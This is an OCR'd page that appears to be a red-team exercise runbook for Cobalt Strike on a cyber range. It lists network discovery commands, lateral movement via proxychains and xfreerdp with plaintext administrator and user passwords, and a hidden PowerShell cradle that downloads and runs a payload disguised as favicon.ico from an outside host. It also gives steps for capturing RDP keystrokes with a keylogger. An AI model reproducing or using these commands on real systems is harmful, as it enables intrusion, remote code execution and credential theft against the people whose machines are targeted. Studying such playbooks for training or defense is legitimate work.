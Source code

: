  
Network 
Discovery 
� 	Left-click elevated beacon (NOT persistence SYSTEM beacon) � 	Right-click > Interact 
shell qwinsta /SERVER:MUGGLE-1 shell qwinsta /SERVER:MUGGLE-2 shell qwinsta /SERVER:MUGGLE-3 shell qwinsta /SERVER:MUGGLE-4  
 
Lateral 
Movement 
- Muggle 
� Left-click elevated beacon (NOT persistence SYSTEM beacon) � Right-click > Interact socks 9050 


Bash: 
proxychains xfreerdp /cert:ignore /v:MUGGLE-4 
/u:Administrator /p:Simspace1!Simspace1! /timeout:30000 
On Remote Host: 
� Task Manager > Run (As Administrator): powershell -win h -c "iex 
(iwr -useb http://macfeelabs.com/favicon.ico)" 
� Wait for beacon check-in 
� Disconnect from RDP 
� Left-click muggle-16 elevated beacon (NOT persistence SYSTEM beacon) � 	Right-click > Interact 
socks stop 
exit 
 
 
Keylogger 
 
  � Left-click new muggle-4 beacon � Right-click > Interact sleep 60 20 PCTE: 
  � Open Muggle-4 Console > Open Remote Desktop UI (Do not connect) � 	Leave Console open for later 
Cobalt Strike: 
  � Left-click new muggle-4 beacon 
  � Right-click > Explore > Process List 
  � Select mstsc.exe process > Log Keystrokes 
  � View > Keystrokes 
PCTE: 
  � Connect to mystery-31.mystery.com as:  
o 	RCS03 - v1: ruthie.rollins : P@ssw0rdP@ssw0rd o 	RCS06 - v2: rachael.mullins : S3+a#s#3K#j# 
  � Close console WITHOUT logging out 
Cobalt Strike: 
  � Verify keystrokes were captured 
 

Lateral 
Movement 
- Mystery 
 
> Left-click muggle-4 beacon 
> Right-click Interact 
 
socks 9050 
Bash: 
IMPORTANT: Replace the username and password with the appropriate credentials: 
RCS03 - v1: ruthie.rollins : P@ssw0rdP@ssw0rd RCS06 - v2: rachael.mullins : S3+a#s#3K#j# 
proxychains xfreerdp /cert:ignore /v:MYSTERY-31 /u:<username> /p:<password> /timeout:60000 On Remote Host: 
� Task Manager > Run: powershell -win h -c "iex (iwr -useb http://macfeelabs.com/favicon.ico)" 
� Wait for beacon check-in 
� Disconnect from RDP 
� Left-click muggle-4 beacon 
� Right-click > Interact 
socks stop exit 
 